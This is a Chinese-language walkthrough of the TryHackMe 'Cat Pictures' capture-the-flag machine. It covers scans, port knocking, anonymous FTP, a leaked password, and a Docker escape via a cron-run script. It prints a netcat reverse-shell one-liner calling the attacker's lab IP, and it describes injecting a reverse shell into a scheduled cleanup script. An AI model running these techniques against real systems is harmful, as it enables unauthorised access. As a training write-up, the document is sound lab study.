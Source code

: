 ```yaml
---
sidebar_position: 59
tags: [Easy, Linux, 端口敲击, 匿名身份登陆-FTP, docker, 定时任务]
title: "Cat Pictures"
description: "Cat Pictures"
sidebar_label: "Cat Pictures"
slug: /tryhackme/59
---
```

# Cat Pictures
## 端口扫描
```bash
root@ip-10-10-24-143:~/catpictures# nmap -sTCV -p 22,4420,8080 --min-rate 1000 10.10.205.99

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-03 12:49 BST
Nmap scan report for ip-10-10-205-99.eu-west-1.compute.internal (10.10.205.99)
Host is up (0.00015s latency).

PORT     STATE SERVICE        VERSION
22/tcp   open  ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (EdDSA)
4420/tcp open  nvm-express?
| fingerprint-strings: 
|   DNSVersionBindReq, GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|     Please enter password:
|     Invalid password...
|     Connection Closed
|   NULL, RPCCheck: 
|     INTERNAL SHELL SERVICE
|     please note: cd commands do not work at the moment, the developers are fixing it at the moment.
|     ctrl-c
|_    Please enter password:
8080/tcp open  ssl/http-proxy Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

## 8080
访问 8080 端口我发现这是一个 phpBB 论坛, 查看其中的文章我发现一段数字

![20240702223528](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702223528.png)

这让我想起来端口敲击, 这是一种隐藏端口的方法 "**端口敲击**", 所以我下载工具进行端口敲击, (记得多用几次,免得出错)

![20240702223554](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702223554.png)

之后再次进行端口扫描, 发现存在 21 端口

```bash
root@ip-10-10-24-143:~/catpictures# nmap -sT -p- --min-rate 1000 10.10.205.99

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-03 12:55 BST
Nmap scan report for ip-10-10-205-99.eu-west-1.compute.internal (10.10.205.99)
Host is up (0.00024s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
4420/tcp open  nvm-express
8080/tcp open  http-proxy
MAC Address: 02:94:A3:D2:F3:73 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.25 seconds
```

## 21 - FTP
我直接进行 FTP 匿名身份登陆, 发现可以成功并在其中发现一个文档

![20240702223741](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702223741.png)

查看 note.txt 我发现这是 4420 端口的一个连接密码

```bash
root@ip-10-10-24-143:~/catpictures# cat note.txt 
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

## 后渗透

### 4420
使用上面的密码进行连接, 我发现这是一个小系统

![20240702223802](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702223802.png)

### 4420 —> root (docker)
在这个小系统中枚举我发现存在一个程序名称叫 runme , 同时执行告诉我需要一个完整shell

![20240702223828](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702223828.png)

因为其中提供的程序也非常少, 所以我尝试获取反向 Shell, 最终发现可以利用下面的语句来获取到 Shell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.24.143 4444 >/tmp/f
```

获取从 4420 端口获取的 Reverse Shell, 我发现这仍然是一个小系统, 因为连 id 命令都没有

![20240702223841](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702223841.png)

此时我应该可以运行 runme 程序, 但是当我运行的时候我发现需要我提供密码

![20240702223856](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702223856.png)

因此我使用 nc 将 runne 传输到本地进行查看,

**发送端执行**

```bash
I have no name!@cat-pictures:/home/catlover# nc -l 7778 < runme
```

**攻击机执行:**

```bash
root@ip-10-10-24-143:~/catpictures# nc 10.10.205.99 7778 > runme
```

传输到本地后我使用 strings 命令查看发现其中密码是明文显示

![20240702223908](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702223908.png)

使用从这里获得的密码进行输入发现可以获取到一个 id_rsa

```bash
I have no name!@cat-pictures:/home/catlover# ./runme
./runme
Please enter yout password: rebecca
Welcome, catlover! SSH key transfer queued!
I have no name!@cat-pictures:/home/catlover# ls -al
ls -al
total 32
drwxr-xr-x 2 0 0  4096 Sep  3 12:22 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rw-r--r-- 1 0 0  1675 Sep  3 12:22 id_rsa
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
```

之后使用获取到得私钥进行连接, 就获取到了 docker 中 Root 权限

![20240702223927](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702223927.png)


### root(docker) —> root

此时我查看根目录发现有一个特殊文件 `.dockerenv` , 这表明我们位于 Dokcer 容器中

![20240702224004](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702224004.png)

同时我发现有一个 .bash_history 文件, 这其中存在内容, 我查看此文件, 发现其一直在操作 /opt/clean/clean.sh 文件, 我查看该文件内容发现其是清空 /tmp 目录

```bash
root@7546fa2336d6:/# cat /opt/clean/clean.sh 
#!/bin/bash

rm -rf /tmp/*
```

所以我猜测这可能是一个定时任务, 因此在其中添加反向 Shell  内容等待其执行

![20240702224016](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240702224016.png)